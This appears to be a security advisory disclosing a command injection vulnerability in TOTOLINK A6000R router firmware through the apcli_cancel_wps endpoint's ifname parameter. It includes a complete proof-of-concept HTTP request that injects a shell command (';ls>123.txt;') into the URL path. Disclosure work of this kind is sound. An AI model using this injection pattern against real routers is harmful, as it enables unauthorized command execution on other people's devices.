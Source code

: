 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (apcli_cancel_wps)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_cancel_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_cancel_wps/arg`

![](./3.png)



## Payload

We can trigger this vulnerability by injecting the `ls>123.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_cancel_wps/;ls>123.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=cb3a0fa98f87a1ace139e0d21a61953e
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
